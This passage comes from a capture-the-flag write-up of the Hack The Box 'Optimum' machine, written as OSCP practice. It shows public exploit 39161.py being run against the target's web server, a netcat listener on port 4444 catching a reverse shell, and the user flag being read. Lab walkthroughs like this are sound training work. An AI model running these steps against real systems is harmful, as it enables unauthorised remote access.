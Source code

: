 I downloaded the exploit found above, changed the IP and port, started a netcat listener and run it:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/optimum]
└─$ python 39161.py optimum.htb 80
```

Let's get a look at the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/optimum]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.8] 49186
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

02/09/2021  10:31     <DIR>          .
02/09/2021  10:31     <DIR>          ..
18/03/2017  03:11            760.320 hfs.exe
18/03/2017  03:13                 32 user.txt.txt
               2 File(s)        760.352 bytes
               2 Dir(s)  31.886.655.488 bytes free

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

A shell spawned, I can see the user flag, so I can try to read it.

## User Flag

---

Time to get the user flag:

```bash
C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

02/09/2021  10:31     <DIR>          .
02/09/2021  10:31     <DIR>          ..
18/03/2017  03:11            760.320 hfs.exe
18/03/2017  03:13                 32 user.txt.txt
               2 File(s)        760.352 bytes
               2 Dir(s)  31.886.655.488 bytes free

C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt
d0**************************5f73

```
